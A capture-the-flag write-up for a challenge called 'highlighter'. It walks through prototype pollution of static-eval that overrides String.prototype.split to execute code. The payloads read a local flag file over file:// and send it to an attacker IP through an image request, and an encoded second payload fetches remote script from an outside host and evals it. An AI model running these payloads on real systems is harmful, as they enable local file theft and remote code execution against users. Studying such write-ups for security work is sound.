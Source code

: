 Then visit the vuln point

```
/read?id=(articleID with payload)#(function(x){return''[!x?'__proto__':'constructor'][x]})('constructor')('String.prototype.split=function(){eval(String(this));return[this]}')()
```

With prototype pollution, we overwrote `String.prototype.split` which is called by `onMessage` after `static-eval`.

```js
var a = i.split(/\W/),
	h = "";
```

After overwrite the `String.prototype.split` ,when split was called , we can get the response

```
6339e914b333b35d902a2dfd2c415656,bin,boot,dev,etc,home,lib,lib64,media,mnt,opt,proc,root,run,sbin,srv,sys,tmp,usr,var,_dockerenv
```

So the flag may hide in  /6339e914b333b35d902a2dfd2c415656

```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'file:///6339e914b333b35d902a2dfd2c415656/flag');
xhr.onload = function() {
  (new Image).src = 'https://(IP)?' + encodeURIComponent(xhr.responseText);
};
xhr.send();
```

And finally got the flag!!

```
Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}
```

Others payload like this!

```
http://highlighter.ctf.defenit.kr/read?id=20#[function/**/x(__proto__,b){return/**/[({})[__proto__][b]][0]}][0]('constructor','constructor')('x1=[118,97,114,32,120,104,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,104,116,116,112,46,111,110,114,101,97,100,121,115,116,97,116,101,99,104,97,110,103,101,32,61,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,105,102,32,40,116,104,105,115,46,114,101,97,100,121,83,116,97,116,101,32,61,61,32,52,32,38,38,32,116,104,105,115,46,115,116,97,116,117,115,32,61,61,32,50,48,48,41,32,123,10,32,32,32,32,32,32,32,101,118,97,108,40,120,104,116,116,112,46,114,101,115,112,111,110,115,101,84,101,120,116,41,59,10,32,32,32,32,125,10,125,59,10,120,104,116,116,112,46,111,112,101,110,40,34,71,69,84,34,44,32,34,104,116,116,112,115,58,47,47,97,112,112,46,105,109,106,117,110,111,46,99,111,109,47,99,116,102,47,49,46,112,104,112,34,44,32,116,114,117,101,41,59,10,120,104,116,116,112,46,115,101,110,100,40,41,59].map(function(x){return/**/String.fromCharCode(x)}).join([]);eval(x1)')(1234)
```



### References

1. https://github.com/browserify/static-eval/pull/27
2. https://github.com/browserify/static-eval
